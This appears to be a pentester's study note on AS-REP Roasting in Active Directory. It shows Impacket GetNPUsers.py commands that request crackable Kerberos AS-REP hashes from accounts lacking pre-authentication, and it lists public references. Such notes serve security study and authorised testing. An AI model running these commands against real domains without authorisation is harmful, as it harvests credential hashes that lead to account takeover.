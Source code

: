 # Unix Shell

## 01 - Conditions

Same exact approach like for the ServicePrincipalName for Kerberoasting as the same as the following two conditions for it. However, the only different in different hash encryption since we are ASREPRoasting (refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/04 - Password Cracking/Offline/JTR#^0c9a3c|JTR]] or [[Hashcat#^6d0af5|Hashcat]] section **under Offline Password Cracking**).

## 02 - Impacket

Request a Kerberos 5, etype 23, AS-REP hash from an NP user account.

```
$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username>:"<password>"

$ GetNPUsers.py -request -dc-ip <IP> <domain>/<username> -hashes :<nt_hash>

$ GetNPUsers.py -request -dc-ip <IP> <domain> -usersfile users.lst
```

---
## References

- [Hacking Articles: ASREPRoasting](https://www.hackingarticles.in/as-rep-roasting/)

- [Hacking Articles: Abusing Kerberos Using Impacket](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

- [Pentestlab Blog: AS-REP Roasting](https://pentestlab.blog/2024/02/20/as-rep-roasting/)

- [Hacktricks Active Directory Methodology ASREPRoast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)

- [XPNSec: Kerberos AD Attacks - More Roasting with AS-REP](https://blog.xpnsec.com/kerberos-attacks-part-2/)

- [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)